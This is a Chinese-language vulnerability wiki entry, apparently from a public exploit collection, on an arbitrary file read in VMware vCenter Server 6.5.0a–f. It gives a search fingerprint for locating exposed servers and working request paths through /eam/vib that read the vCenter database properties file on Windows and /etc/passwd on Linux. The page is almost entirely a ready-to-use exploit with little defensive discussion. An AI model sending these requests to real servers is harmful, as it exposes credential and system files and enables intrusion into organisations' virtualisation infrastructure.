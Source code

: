 # VMware vCenter vid 任意文件读取漏洞

## 漏洞描述
VMware vCenter特定版本存在任意文件读取漏洞，攻击者通过构造特定的请求，可以读取服务器上任意文件、
## 漏洞影响
<a-checkbox checked> VMware vCenter Server 6.5.0a- f 版本</a-checkbox></br>
## 网络测绘
<a-checkbox checked> title="ID_VC_Welcome"</a-checkbox></br>

## 漏洞复现

登录页面

![image-20220311164942992](/assets/PeiQi-Wiki/img/image-20220311164942992.png)

<a-checkbox checked> Windows主机</a-checkbox></br>

```
/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
```

<a-checkbox checked> Linux主机</a-checkbox></br>

```
/eam/vib?id=/etc/passwd
```

![image-20220311164928273](/assets/PeiQi-Wiki/img/image-20220311164928273.png)

